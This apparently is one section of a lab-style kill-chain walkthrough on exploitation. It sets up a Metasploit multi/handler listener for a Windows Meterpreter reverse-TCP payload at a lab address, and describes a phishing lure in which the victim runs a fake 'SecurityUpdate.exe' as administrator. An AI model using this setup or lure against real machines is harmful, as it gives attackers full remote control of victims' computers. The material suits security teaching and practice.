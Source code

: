 # 💥 Phase 4: Exploitation

## 🎯 Objective

Trigger the execution of the malicious payload and establish a connection back to the attacker’s machine.

---

## 🧰 Step 1: Launch Metasploit Framework

Start the **Metasploit console** on the attacker’s machine:

```bash
msfconsole
```

Once loaded, configure the handler to catch the incoming reverse shell:

```bash
use exploit/multi/handler
```

![Metasploit console](https://github.com/user-attachments/assets/2b9f26c2-9ef3-47ae-87fa-c33ac937abcb)

---

## ⚙️ Step 2: Configure the Exploit

Match the handler settings to the payload created during the Weaponization phase:

```bash
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.19.19.134
set LPORT 4444
run
```

📌 **Explanation of Settings**

| Setting   | Description                                |
| --------- | ------------------------------------------ |
| `PAYLOAD` | Specifies the type of reverse shell to use |
| `LHOST`   | IP address of the attacker's machine       |
| `LPORT`   | Listening port for incoming connections    |

---

## 🧑‍💻 Victim Interaction

The victim performs the following steps:

1. Opens the phishing email and clicks the **shortened URL**.
2. Downloads `SecurityUpdate.exe` from the attacker’s Python server.
3. Executes the file using **Command Prompt with administrator privileges**.

---

## 🔄 Establishing the Connection

Once executed, the payload silently:

* Initiates a **reverse TCP session** to `10.19.19.134:4444`.
* Connects back to the attacker's Metasploit listener.
* Opens a **Meterpreter shell**, granting the attacker full remote control of the victim's Windows machine.

✅ At this point, the **exploitation is successful**, and the attacker has established command-line access for further actions.
